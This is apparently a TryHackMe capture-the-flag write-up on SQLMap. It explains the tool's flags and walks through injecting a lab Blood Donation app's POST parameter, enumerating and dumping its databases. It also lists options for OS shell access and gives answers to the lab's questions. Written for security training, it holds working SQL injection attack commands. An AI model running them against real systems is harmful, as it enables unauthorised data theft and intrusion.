 # TryHackMe Room: SQLMAP

===========================================
## Task 1: Introduction
===========================================
SQLMap is a powerful open-source tool used to automate the detection and exploitation of SQL injection vulnerabilities.

Key Features:
- Detects and exploits SQLi automatically
- Supports multiple DBMS (MySQL, PostgreSQL, Oracle, etc.)
- Can enumerate DBs, tables, columns, users, passwords
- Offers advanced features like OS command execution, file reading/writing, and even shell access

Command-line tool written in Python.
Pre-installed on Kali Linux or can be downloaded from GitHub.

===========================================
## Task 2: Using SQLMap
===========================================

-- Basic Syntax --
sqlmap -u "http://example.com/page.php?id=1" --dbs

Common Flags:
- -u            : Target URL
- --data        : POST data string (e.g., "id=1")
- -p            : Specify parameter to test (e.g., -p id)
- --dbs         : List all databases
- --tables      : List tables in a specific DB
- --columns     : List columns in a table
- --dump        : Dump data from a table
- --batch       : Run in non-interactive mode
- --random-agent : Use random User-Agent
- --flush-session: Clear previous sessions

-- Enumeration Examples --

1. List databases:
sqlmap -u "http://example.com/page.php?id=1" --dbs

2. Select database and list tables:
sqlmap -u "http://example.com/page.php?id=1" -D users --tables

3. Get columns from a table:
sqlmap -u "http://example.com/page.php?id=1" -D users -T accounts --columns

4. Dump data:
sqlmap -u "http://example.com/page.php?id=1" -D users -T accounts --dump

-- POST Request Example using request file --

1. Save intercepted request to req.txt
2. sqlmap -r req.txt -p blood_group --dbs

Other useful options:
--banner             : Get DBMS banner
--current-user       : DBMS current user
--current-db         : Current database
--os-shell           : Try to open OS shell
--os-pwn             : Meterpreter shell/VNC access (advanced)

===========================================
## Task 3: SQLMap Challenge Walkthrough
===========================================

## Target: Blood Donation web app (deploy via TryHackMe)

Step-by-step:

1. Intercept a POST request with the blood_group parameter.
2. Save it as `req.txt`
3. Run SQLMap:

> sqlmap -r req.txt -p blood_group --dbs  
  --> Finds database: blood

4. Enumerate tables:
> sqlmap -r req.txt -D blood --tables  
  --> Tables found: blood_db, flag, users

5. Get columns of blood_db:
> sqlmap -r req.txt -D blood -T blood_db --columns

6. Dump data:
> sqlmap -r req.txt -D blood --dump-all

Find answers to:

Q1: What is the name of the interesting directory?
A1: /blood

Q2: What is the current database user?
A2: root@localhost

Q3: Submit the final flag
A3: try it :)

===========================================
## Summary Cheatsheet
===========================================

- -u URL                      → Target URL
- --data "param=val"         → POST data
- -p param                   → Test specific parameter
- --dbs                      → List databases
- -D dbname --tables         → List tables in db
- -T table --columns         → List columns
- --dump                     → Dump table data
- --batch                    → Non-interactive mode
- -r req.txt                 → Use saved HTTP request
- --current-user             → Show DB user
- --os-shell                 → Try OS shell (if injectable)

===========================================
### Tips
===========================================

- Always use --batch in CTFs to speed things up.
- Combine -D, -T, and -C to target specific data.
- sqlmap saves output logs by default in /root/.sqlmap/output/
- Use --flush-session if you change payloads and want a clean slate.
